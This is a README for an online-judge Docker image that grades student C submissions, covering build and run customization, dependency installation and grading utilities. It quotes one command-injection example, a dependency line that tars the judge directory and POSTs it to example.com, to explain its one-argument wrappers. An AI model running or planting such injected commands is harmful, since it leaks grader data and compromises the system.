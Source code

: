 # OJ Sample judging image

This image serves as a base for grading student submissions. 
There are many hardcoded restrictions so please do read this document! 
If in doubt, you can consult the reference implementation.

# Quick start

We have set up this base image for simple judging tasks, which

* runs on ubuntu 16.04
* submission is a single c source file named `main.c` targeting c11
* compiled binary takes input from STDIN and print to STDOUT
* output is graded by `diff`ing it with a predefined reference output
* may have numerous test cases
* does not require installing student-defined dependencies with `apt` or `pip3`

If your need happens to match this, you can start reading the section on
where to place test data. 
If not, we have also written a few common customization guides.
If all failed, please refer to the [WALKTHROUGH.md](WALKTHROUGH.md)
we have written. 
This detailed guide contains everything you will need to rewrite this
image to suit your needs.

## Test data location
It is placed in `tests/` directory. Please refer to readme inside those 
directories on details.

## Customize build command

1. Edit `build` script. 
1. Replace line 4 with your command.
1. If your command require addition packages, please add them to
relevant location in `Dockerfile`

Please be ware your compile command have connectivity to the internet.

Please note the default run script requires an executable file at 
`/test/executable` as the student program.
Since you are using custom compile command, you may also wish to use
a custom run command.

## Customize run command
1. Edit `run.py` script. 
1. Replace line 101 with the executable.
2. Replace line 106 with the arguments to the executable including `argv[0]`
 which is executable name.
1. There are various other settings can be changed in the script.
 
 For anything more advanced

## Install student defined dependencies

*If you are using python, please note `pip install .` is considered a 
build command and should not be used here.*

Uncomment everything inside `setup` script. 

Oh, Please don't uncomment the shebang line (`#!/usr/bin/env bash` line)

This will allow student to place a file named dependencies. 
This file is a key-value file, with key being the installation method,
and the value being the dependency.
One pair per line.
The key-value is separated with three colons (`:::`)
This image comes with `apt` and `pip3` installation method but it is 
easy to define your own.

NOTE: For sake of security, we enforce a rule of *one dependency per line*.

### Adding/removing custom dependency installation method

Open `dep.awk`, while you may not be familiar with awk, the template 
should be easy enough to follow.

First, you select a good identifier to indicate the installation method.
This identifier does not need to have connection with the actual
install command, e.g. `asjdui` can be used to identify `pip3 install -U`
but your student will believe you can't name things properly.

You then think of how the actual installation should commence.
You should write a command template that would install the package.

You now fill the following template and append the result to `dep.awk`.

    $1~/<identifer>/ {
        print "run_cmd.py <install command>" "--" $2 
    }

---

Remember the student may give a line like this

    apt:gcc;tar -zcvf /t /judge;curl -X POST example.com/post -d /t

So it's suggested to pass the dependency as a single argument. 
This is also why we enforce the rule of *one dependency per line*.

We have provided two wrappers `run_cmd.py` and `run_cmd_no_slash.py`
to facilitate this need.

The first wrapper will take first argument as target executable, other 
argument before `--` as options, and join everything after `--` with
a space as delimiter and use the result as a whole as the last argument 
to the target executable.   

The second wrapper will additionally reject any package that has `/` in
it.
This will be helpful to prevent package manager from installing from 
local directory, as installation script of a local package is not as
trusty as one on e.g. `PyPI`.

# Customize grading method
It is suggested to use the utilities in `grading/util.py` as the OJ
requires a specific pattern in `STDOUT` to be able to read the grading
result.

You can consult `grading/grade.py` on how to use it.

